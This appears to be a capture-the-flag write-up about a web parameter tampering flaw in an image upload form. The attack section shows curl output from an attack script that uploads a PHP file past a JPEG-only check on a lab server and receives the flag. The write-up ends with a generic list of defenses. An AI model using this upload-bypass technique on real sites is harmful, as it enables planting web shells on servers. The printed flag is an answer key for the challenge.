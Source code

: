 # Image_upload_temper_data

## Description

https://owasp.org/www-community/attacks/Web_Parameter_Tampering

The Web Parameter Tampering attack is based on the manipulation of parameters exchanged between client and server in order to modify application data, such as user credentials and permissions, price and quantity of products, etc. Usually, this information is stored in cookies, hidden form fields, or URL Query Strings, and is used to increase application functionality and control.

Its exploitation can result in other consequences including XSS, SQL Injection, file inclusion, and path disclosure attacks.

Here we find a parameter tempering vulnerability,
If we click on add image we end up on a page with an image upload form
This form should accept only jpeg files
But with a tempering data attack we manage to upload a php script


## Attack

	$ sh attack.sh
	Note: Unnecessary use of -X or --request, POST is already inferred.
	% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
									Dload  Upload   Total   Spent    Left  Speed
	0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 192.168.56.101:80...
	* Connected to 192.168.56.101 (192.168.56.101) port 80 (#0)
	> POST /?page=upload HTTP/1.1
	> Host: 192.168.56.101
	> User-Agent: curl/7.79.1
	> Accept: */*
	> Content-Length: 340
	> Content-Type: multipart/form-data; boundary=------------------------25247114f522d754
	> 
	} [340 bytes data]
	* We are completely uploaded and fine
	100   340    0     0  100   340      0     80  0:00:04  0:00:04 --:--:--    80* Mark bundle as not supporting multiuse
	< HTTP/1.1 200 OK
	< Server: nginx/1.4.6 (Ubuntu)
	< Date: Thu, 28 Jul 2022 15:42:24 GMT
	< Content-Type: text/html
	< Transfer-Encoding: chunked
	< Connection: keep-alive
	< X-Powered-By: PHP/5.5.9-1ubuntu4.29
	< Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Thu, 28-Jul-2022 16:42:19 GMT; Max-Age=3600
	< 
	{ [2761 bytes data]
	100  3089    0  2749  100   340    547     67  0:00:05  0:00:05 --:--:--   572
	* Connection #0 to host 192.168.56.101 left intact
	<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/hack.php succesfully uploaded.</pre>

The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

## Defense

A primary defense against data tampering is to use a firewall and windows security to lock down important files, directories and other resources. The web application should also run with minimum privileges. Guarding against script exploits by not trusting any information that comes from a user or even from a database. Appropriate and safe steps should be taken when getting information from untrusted sources, to make sure it does not contain any malicious executable code.

Counter-Measures to prevent data tampering are done through the following ways: by using data signing and harsing, using digital signatures, using strong authorization, using tamper resistant protocols across communication links, using secure communication links with protocols that provide message integrity, also by using strong and powerful firewalls, and long passwords that consist of alphanumeric characters, by also blocking IP addresses for a certain period of time which will cause repeated failed login attempts by the attacker.

Also by using access controls to protect data in persistent stores to ensure that only authorized users can access and modify the data, and by using role based security to define which users can view data and which users can modify data.